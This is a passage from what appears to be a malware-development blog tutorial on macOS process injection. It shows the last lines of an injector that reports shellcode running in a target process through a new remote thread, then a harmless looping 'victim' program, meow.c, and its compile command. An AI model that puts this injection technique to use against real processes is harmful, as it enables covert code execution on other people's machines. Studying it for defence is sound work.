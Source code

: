 ```cpp

  printf("[+] remote thread created at RIP=0x%llx, RSP=0x%llx\n", state.__rip, state.__rsp);
  printf("[+] shellcode running in PID %d via new thread.\n", pid);

  return 0;
}
```

### demo

Let's go to see this in action. First of all, we need "victim" process. As usual, let me use `meow.c`:    

```cpp
/*
 * meow.c
 * victim process for macOS injection tests
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/24/malware-mac-10.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
}
```

Compile it:    

```bash
clang -o meow meow.c
```

![malware](/assets/images/174/2025-08-21_17-44_1.png){:class="img-responsive"}    
